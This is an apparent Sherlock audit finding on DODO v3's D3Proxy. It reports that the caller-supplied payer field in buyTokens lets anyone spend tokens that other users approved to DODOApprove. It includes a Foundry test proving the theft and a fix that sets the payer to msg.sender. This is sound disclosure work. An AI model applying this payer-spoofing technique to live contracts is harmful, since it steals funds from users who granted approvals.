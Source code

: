 qckhp

high

# Possible to buy tokens from other user funds who approved DODOApprove contract

## Summary
It's possible to buy tokens from victims who approved DODOApprove contract before.

## Vulnerability Detail
In [D3Proxy.sol](https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/periphery/D3Proxy.sol) `buyTokens` function's `data` parameter determines who will be the payer for the swap, which can be set by a malicious user.
For example: we set `SwapCallbackData.payer` value to a victim who approved the DODOApprove contract before resulting the fromToken will be pulled from the victim.

## Impact
Loss of user funds.

## Code Snippet
https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/periphery/D3Proxy.sol#L119

For PoC add test to D3Trading.t.sol:
```solidity
function testNormalBuyTokensWithOtherPayer() public {
        uint256 beforeBalance2 = token2.balanceOf(user1);
        uint256 beforeBalance3 = token3.balanceOf(user1);

        uint256 beforeBalanceUser22 = token2.balanceOf(user2);
        uint256 beforeBalanceUser23 = token3.balanceOf(user2);

        SwapCallbackData memory swapData;
        swapData.data = "";
        swapData.payer = user1;

        uint256 gasleft1 = gasleft();
        vm.startPrank(user2);
        uint256 receiveToToken = d3Proxy.buyTokens(
            address(d3MM),
            user2,
            address(token2),
            address(token3),
            1 ether,
            30 ether,
            abi.encode(swapData),
            block.timestamp + 1000
        );
        vm.stopPrank();
        uint256 gasleft2 = gasleft();
        console.log("buyToken1stTime gas\t", gasleft1 - gasleft2);

        uint256 afterBalance2 = token2.balanceOf(user1);
        uint256 afterBalance3 = token3.balanceOf(user1);

        uint256 afterBalanceUser22 = token2.balanceOf(user2);
        uint256 afterBalanceUser23 = token3.balanceOf(user2);

        //console.log(beforeBalance2 - afterBalance2);
        //console.log(afterBalance3 - beforeBalance3);

        assertEq(beforeBalance2 - afterBalance2, receiveToToken);
        assertEq(afterBalance3 - beforeBalance3, 0);

        assertEq(afterBalanceUser22, 0);
        assertEq(afterBalanceUser23 - beforeBalanceUser23, 1 ether);
    }
```
## Tool used

Manual Review

## Recommendation
swapData.payer should be set to msg.sender by the D3Proxy